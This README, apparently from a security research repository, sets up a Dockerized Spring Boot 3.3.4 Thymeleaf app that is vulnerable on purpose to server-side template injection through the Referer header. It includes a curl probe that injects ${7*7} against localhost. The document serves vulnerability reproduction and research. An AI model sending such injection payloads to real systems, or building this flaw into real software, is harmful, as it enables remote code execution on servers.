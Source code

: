 # Spring Boot 3.3.4 Thymeleaf SSTI Demo (Docker)

This reproduces the Referer double-evaluation bug pattern described here: https://modzero.com/en/blog/spring_boot_ssti/

## Build and Run

```bash
# From repo root
docker build -t spring-ssti /Users/kesselbach/security-research/spring-boot-ssti

# Run
docker run --rm -p 8081:8081 --name spring-ssti spring-ssti
```

## Test / Exploit

Send a crafted Referer header, e.g., to evaluate `${7*7}`:

```bash
curl -s -H "Referer='+${7*7}+'" http://localhost:8081/
```

If vulnerable, the rendered text should contain `49`.

Note: This is intentionally insecure for research purposes; do not deploy to production.
